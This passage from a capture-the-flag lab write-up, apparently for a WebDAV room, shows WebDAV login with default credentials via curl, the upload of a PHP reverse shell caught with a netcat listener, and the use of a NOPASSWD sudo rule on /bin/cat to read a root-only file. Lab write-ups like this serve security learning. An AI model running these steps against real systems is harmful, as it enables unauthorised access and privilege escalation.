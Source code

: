 ### Step 4 – Privilege Escalation
- Enumerate sudo privileges:  
  ```
  $ sudo -l
  Matching Defaults entries for www-data on ubuntu:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User www-data may run the following commands on ubuntu:
      (ALL) NOPASSWD: /bin/cat
  ```
  **Output Explanation:**  
  Shows `www-data` can run `/bin/cat` as any user without a password, a significant privilege escalation vector.

- Attempt to read root flag:  
  ```
  $ /bin/cat /root/root.txt
  /bin/cat: /root/root.txt: Permission denied
  ```
  **Output Explanation:**  
  Direct access fails due to permissions.

- Use sudo to read root flag:  
  ```
  $ sudo -u root /bin/cat /root/root.txt
  [REDACTED]
  ```
  **Output Explanation:**  
  Sudo with `-u root` runs `cat` as root, bypassing permissions to read the root flag.

---

## 3. Proof of Concept (PoC)

- **WebDAV Auth PoC:**  
  ```
  ┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~/THM/webdav]
  └─$ curl --user "wampp:[REDACTED]" http://10.201.52.93/webdav/passwd.dav
  ```
  Accesses `passwd.dav`, confirming default credentials `wampp:[REDACTED]`.

- **Shell Upload PoC:**  
  ```
  ┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~/THM/webdav]
  └─$ nano rev_shell.php
  ┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~/THM/webdav]
  └─$ curl --user "wampp:[REDACTED]" http://10.201.52.93/webdav/ --upload-file rev_shell.php -v
  ┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~/THM/webdav]
  └─$ nc -lvnp 6969
  ```
  Uploads PHP reverse shell and catches it with netcat, gaining `www-data` shell.

- **Sudo Cat Abuse PoC:**  
  ```
  $ sudo -u root /bin/cat /root/root.txt
  ```
  Reads root-protected file as `www-data` via sudo, proving escalation.

---